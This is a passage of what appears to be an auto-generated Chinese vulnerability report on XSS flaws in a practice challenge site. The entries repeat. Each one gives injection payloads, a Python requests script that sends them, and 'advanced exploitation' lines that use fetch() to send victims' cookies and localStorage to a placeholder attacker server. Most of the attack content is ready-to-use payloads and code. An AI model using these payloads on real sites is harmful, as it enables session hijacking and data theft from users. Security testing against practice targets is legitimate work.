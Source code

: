 3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: submit
- 严重程度: medium
- 验证载荷: <img src=x onerror=alert(1)>
- 修复建议: 对用户输入进行HTML编码，使用现代框架的XSS防护机制

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 submit 中注入以下payload:
   ```javascript
   <img src=x onerror=alert(1)>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'submit': '<img src=x onerror=alert(1)>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: submit
- 严重程度: medium
- 验证载荷: <svg onload=alert(1)>
- 修复建议: 对用户输入进行HTML编码，使用现代框架的XSS防护机制

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 submit 中注入以下payload:
   ```javascript
   <svg onload=alert(1)>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'submit': '<svg onload=alert(1)>'}
   response = requests.get(url, params=params)
   ```
